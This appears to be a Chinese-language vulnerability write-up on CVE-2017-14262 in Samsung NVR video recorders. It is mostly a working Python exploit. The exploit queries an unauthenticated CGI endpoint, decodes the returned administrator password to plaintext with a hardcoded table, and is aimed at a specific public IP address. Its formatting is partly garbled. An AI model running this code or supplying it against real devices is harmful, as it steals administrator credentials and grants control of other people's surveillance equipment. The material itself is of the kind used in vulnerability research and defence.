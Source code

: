 # （CVE-2017-14262）Samsung NVR devices 漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3405](https://www.zhihuifly.com/t/topic/3405)

# （CVE-2017-14262）Samsung NVR devices 漏洞

## 一、漏洞简介

Samsung NVR devices是韩国三星（Samsung）公司的一款网络视频录像机设备。 Samsung NVR设备中存在安全漏洞。远程攻击者可利用该漏洞读取管理员账户的MD5密码散列，并登录设备。

## 二、漏洞影响

## 三、复现过程

### poc

```
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from collections import OrderedDict

from itertools import takewhile

import requests

class SamsungNVR(object):

“”"

此漏洞三星和 uniview 都有

“”"

vul_info = {

“title”: “Samsung NVR设备安全漏洞”,

“cve”: “CVE-2017-14262”,

“desc”: “Samsung NVR devices是韩国三星（Samsung）公司的一款网络视频录像机设备。”

“Samsung NVR设备中存在安全漏洞。远程攻击者可利用该漏洞读取管理员账户的MD5密码散列，并登录设备。”

}

```
pass_index = OrderedDict(
    [(1, 1), (9192090, 2), (1020910, 3), (25549780, 4), (24507899, 5), (16119889, 6), (9428219, 7), (2281891, 8),
     (10861120, 9), (15331742, 10), (22464897, 11), (24403461, 12), (13833575, 13), (16061285, 14), (10721046, 15),
     (16593252, 16), (22051260, 17), (16638739, 18), (6666540, 19), (9283102, 20), (18791719, 21), (25905184, 22),
     (2762182, 23), (12911758, 24), (21944959, 25), (10257708, 26), (894574, 27), (16004987, 28), (12850146, 29),
     (8043423, 30), (7835618, 31), (18372773, 32), (9417841, 33), (18658565, 34), (10330028, 35), (13289156, 36),
     (23739388, 37), (12401865, 38), (15005445, 39), (10176399, 40), (10776092, 41), (16860945, 42), (5353890, 43),
     (2688051, 44), (39030, 45), (18708319, 46), (23920727, 47), (4762271, 48), (24294435, 49), (16720763, 50),
     (21207445, 51), (20598600, 52), (13303854, 53), (2666164, 54), (19813766, 55), (16041010, 56), (3127839, 57),
     (25260962, 58), (15859882, 59), (23452596, 60), (11396657, 61), (18994119, 62), (12423246, 63), (21498126, 64),
     (23593931, 65), (9818447, 66), (14937061, 67), (24683641, 68), (11058089, 69), (12800298, 70), (133183, 71),
     (26013724, 72), (19021449, 73), (25487361, 74), (3426696, 75), (22326185, 76), (9151922, 77), (20416123, 78),
     (13876302, 79), (497003, 80), (18662430, 81), (7306818, 82), (24323487, 83), (26110937, 84),
     (5380058, 85), (21481095, 86), (9540458, 87), (14123621, 88), (6847253, 89), (7638896, 90),
     (22385568, 91), (1208753, 92), (15383366, 93), (24719837, 94), (26729699, 95), (3594142, 96),
     (371291, 97), (23345327, 98), (4415431, 99), (6477625, 100), (4733341, 101), (13423221, 102),
     (24215867, 103), (7503741, 104), (6390751, 105), (10192199, 106), (10352855, 107), (22393893, 108),
     (7198498, 109), (12838108, 110), (5515125, 111), (7229843, 112), (13872090, 113), (21671745, 114),
     (12457317, 115), (26153875, 116), (14327497, 117), (11382568, 118), (10132668, 119), (20086929, 120),
     (8117696, 121), (2098389, 122), (21553350, 123), (23391670, 124), (25350683, 125), (25970062, 126),
     (6959731, 127), (16338714, 128)])

@classmethod
def decrypt_password(cls, json_resp):
    """解密管理员账户密码"""
    try:
        au_pwd = takewhile(lambda x: x != 0, json_resp["au32LoginPasswd"])
        password = "".join(chr(cls.pass_index[pwd_int]) for pwd_int in au_pwd)
    except KeyError:
        password = ""
    return password

def __init__(self, ip: str, port: int):
    self._base_url = f"http://{ip}:{port}"

def verify(self):

    vul_path = '/cgi-bin/main-cgi?json={"cmd":201,"szUserName_Qry":"admin","szUserName":"","u32UserLoginHandle":0}'
    url = self._base_url + vul_path
    try:
        req = requests.get(url, timeout=10)
        if req.status_code == 200:
            res_json = req.json()
            hash_pass = res_json.get("szLoginPasswd", "")
            if hash_pass:
                plain_pass = self.decrypt_password(res_json)
                if plain_pass:
                    return {"user": "admin", "password": plain_pass}
    except Exception as e:
        print(e) 
```

if **name** == ‘**main**’:

vul = SamsungNVR(“117.158.178.49”, 84)

vulres = vul.verify()

print(f"[-] {vul.vul_info}")

if vulres:

print(f"[+] 存在漏洞:{vulres}")

else:

print("[-] 不存在漏洞。") 
```